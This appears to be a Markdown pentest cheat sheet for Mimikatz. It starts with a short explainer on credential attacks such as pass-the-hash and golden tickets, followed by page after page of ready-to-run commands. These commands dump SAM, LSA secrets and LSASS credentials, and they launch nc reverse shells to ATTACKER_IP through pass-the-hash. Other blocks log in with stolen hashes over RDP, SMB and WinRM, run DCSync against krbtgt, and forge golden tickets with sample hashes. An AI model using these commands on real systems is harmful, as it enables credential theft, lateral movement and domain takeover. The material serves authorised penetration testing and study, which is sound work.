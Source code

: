--- ---

<h2>What is Mimikatz?</h2>

[Mimikatz](https://github.com/gentilkiwi/mimikatz) is an open-source application that allows users to view and save authentication credentials such as [Kerberos tickets](https://www.varonis.com/blog/kerberos-authentication-explained/?hsLang=en). The toolset works with the current release of Windows and includes a collection of different network attacks to help assess vulnerabilities.

Attackers commonly use Mimikatz to steal credentials and escalate privileges because in most cases, endpoint protection software and antivirus systems will not detect or delete the attack. Conversely, [pen testers](https://www.varonis.com/blog/master-fileless-malware-penetration-testing/?hsLang=en) use Mimikatz to detect and exploit vulnerabilities in your networks so you can fix them.

## What can Mimikatz do?

![what-can-mimikatz-do-2x-png](https://info.varonis.com/hs-fs/hubfs/what-can-mimikatz-do-2x-png.png?width=1600&name=what-can-mimikatz-do-2x-png.png)

Mimikatz originally demonstrated how to exploit a single vulnerability in the Windows authentication system. Now it exposes several different kinds of vulnerabilities; Mimikatz can perform credential-gathering techniques such as:

-   **Pass-the-hash**: Windows used to [store password data in an NTLM hash](https://www.varonis.com/blog/windows-10-authentication-the-end-of-pass-the-hash/?hsLang=en). Attackers use Mimikatz to pass that exact hash string to the target computer to log in. Attackers don’t even need to crack the password — they just need to use the hash string as-is. It’s the equivalent of finding the master key to a building on the lobby floor. You need just that one key to get into all the doors.
-   **Pass-the-ticket**: Newer versions of Windows store password data in a construct called a ticket. Mimikatz provides functionality for a user to pass a Kerberos ticket to another computer and log in with that user’s ticket. It’s very similar to the pass-the-hash method.
-   **Overpass-the-hash (pass-the-key)**: Yet another flavor of the pass-the-hash, but this technique passes a unique key obtained from a domain controller to impersonate a user.
-   **Kerberoast golden tickets**: This is a pass-the-ticket attack, but it’s a specific ticket for a hidden account called KRBTGT, which is the account that encrypts all of the other tickets. A [golden ticket](https://www.varonis.com/blog/kerberos-how-to-stop-golden-tickets/?hsLang=en) provides you with non-expiring domain admin credentials to any computer on the network.
-   **Kerberoast silver tickets**: Another pass-the-ticket, but a [silver ticket](https://www.varonis.com/blog/kerberos-attack-silver-ticket/?hsLang=en) takes advantage of a feature in Windows that makes it easy for you to use services on the network. Kerberos grants a user a ticket-granting server (TGS) ticket, and a user can use that ticket to authentic to service accounts on the network. Microsoft doesn’t always check a TGS after it’s issued, so it’s easy to slip past any safeguards.
-   **Pass-the-cache**: Finally an attack that doesn’t take advantage of Windows! A pass-the-cache attack is generally the same as a pass-the-ticket, but this one uses the saved and encrypted login data on a Mac/UNIX/Linux system.

---

<h2>Commands</h2>

<h3>Alternate Authentication (PtH)</h3>
```
mimikatz # privilege::debug
mimikatz # token::elevate

# Local Users
lsadump::sam

# AD Users
sekurlsa::msv

#Setup Lisener (Attacking Machine)
nc -lvnp PORT

# Launch Reverse Shell (Using nc64 ont the other machine, you can use other technique to launch a reverse shell (Example smb/psexec in msfconsole))
sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:NTLM_HASH /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP PORT"
```
- Other Technique to pass the hash
	RDP      --> xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
	SMB      --> psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
	WinRM  -->evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH


<h3>Alternate Authentication (PtT)</h3>
```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export

# We can inject the tickets into the current session
kerberos::ptt [0;427fcd5]-2-0-40e10000-USER@MACHINE_DOMAIN (Change the tickets)

# Check the if you have the tiket permission
C:\> klist
```


<h3>Alternate Authentication (PtK)</h3>
```
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys

#Setup Lisener (Attacking Machine)
nc -lvnp PORT
```
b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65
**If we have the RC4 hash:**
```shell-session
mimikatz # sekurlsa::pth /user:USER /domain:DOMAIN /rc4:RC4_HASH /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP PORT"
```

**If we have the AES128 hash:**
```shell-session
mimikatz # sekurlsa::pth /user:USER /domain:DOMAIN /aes128:AES128_HASH /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP PORT"
```

**If we have the AES256 hash:**
```shell-session
mimikatz # sekurlsa::pth /user:USER /domain:DOMAIN /aes256:AES256_HASH /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP PORT"
```

<h3>Dump LSAdump</h3>
```
mimikatz # token::elevate
mimikatz # lsadump::secrets
```

---

<h2>All Commands</h2>

```Terminal
#general
privilege::debug
log
log customlogfilename.log

#sekurlsa
sekurlsa::logonpasswords
sekurlsa::logonPasswords full
sekurlsa::tickets /export
sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd

#kerberos
kerberos::list /export
kerberos::ptt c:\chocolate.kirbi
kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi

#crypto
crypto::capi
crypto::cng
crypto::certificates /export
crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE
crypto::keys /export
crypto::keys /machine /export

#vault & lsadump
vault::cred
vault::list
token::elevate
vault::cred
vault::list
lsadump::sam
lsadump::secrets
lsadump::cache
token::revert
lsadump::dcsync /user:domain\krbtgt /domain:lab.local

#pth
sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a
sekurlsa::pth /user:Administrateur /domain:chocolate.local /aes256:b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9
sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a /aes256:b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9
sekurlsa::pth /user:Administrator /domain:WOSHUB /ntlm:{NTLM_hash} /run:cmd.exe

#ekeys
sekurlsa::ekeys

#dpapi
sekurlsa::dpapi

#minidump
sekurlsa::minidump lsass.dmp

#ptt
kerberos::ptt Administrateur@krbtgt-CHOCOLATE.LOCAL.kirbi

#golden/silver
kerberos::golden /user:utilisateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /id:1107 /groups:513 /ticket:utilisateur.chocolate.kirbi
kerberos::golden /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /aes256:15540cac73e94028231ef86631bc47bd5c827847ade468d6f6f739eb00c68e42 /user:Administrateur /id:500 /groups:513,512,520,518,519 /ptt /startoffset:-10 /endin:600 /renewmax:10080
kerberos::golden /admin:Administrator /domain:CTU.DOMAIN /sid:S-1-1-12-123456789-1234567890-123456789 /krbtgt:deadbeefboobbabe003133700009999 /ticket:Administrator.kiribi
```

